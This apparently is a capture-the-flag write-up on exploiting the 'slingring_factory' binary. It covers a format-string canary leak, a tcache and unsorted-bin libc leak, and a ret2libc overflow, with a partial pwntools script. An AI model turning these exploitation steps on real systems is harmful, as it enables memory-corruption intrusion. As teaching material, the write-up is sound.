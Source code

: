 To summarize, we have a (1) use-after-free vulnerability that leads to a potential information leak and (2) a buffer overflow vulnerability that allows us to potentially control the program flow.

The struct slingring is of size `0x84`, which means that the first 7 freed instances of slingrings will be placed into the tcache. The remaining would go into the unsorted bin then be sorted into the respective bins. Note that since the chunk metadata is of size `0x10`, the freed slingring chunks (`0x94`) would be larger than the largest size of fastbins (`0x88`).

With this, we can form a logic for an exploit chain. We have control of up to 10 bins.
- We need to fill up the tcache (7 chunks), and free 1 more chunk (8th chunk) on top of that.
- The 8th chunk would then be placed into the unsorted bin, which points to the main arena. This allows us to calculate our base libc address.
- Prevent any potential coalescing by keeping a top chunk allocated (allocate a 9th chunk and do not free it).
- Use the buffer overflow to perform a ret2libc

This means that we need to, in order:
1. Use format string vulnerability to leak the canary
2. Create 9 slingrings
3. Free slingring 1-8
4. Call `show_slingrings()` and grab a libc leak
5. Calculate libc base
6. Call `use_slingring()`, buffer overflow and ret2libc

To calculate the offset of the leaked address to libc base, simply use `tele` or find libc base with `vmmap` then subtract the 2 values to get `0x21ace0`.

```py
from pwn import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./slingring_factory", checksec=False)
# context.log_level = 'debug'
libc = ELF("./libc.so.6")

# Run binary 1st time
p = process("./slingring_factory")

def forge(n):
  p.sendlineafter(b">>", b"2")
  p.sendlineafter(b"rings!", str(n))
  p.sendlineafter(b":", b"a")
  p.sendlineafter(b":", b"1")
  p.sendline()
 
def disc(n):
  p.sendlineafter(b">>", b"3")
  p.sendlineafter(b"discard?", str(n))

def show():
  p.sendlineafter(b">>", b"1")

# leak canary
p.sendlineafter(b"name?", "%7$p")
p.recvuntil("Hello, ")
canary = int(p.recvn(18), 16)
print(f"{hex(canary) = }")

# create 9 bins
for i in range(9):
  forge(i)

# free 8 bins
for i in range(8):
  disc(i)

```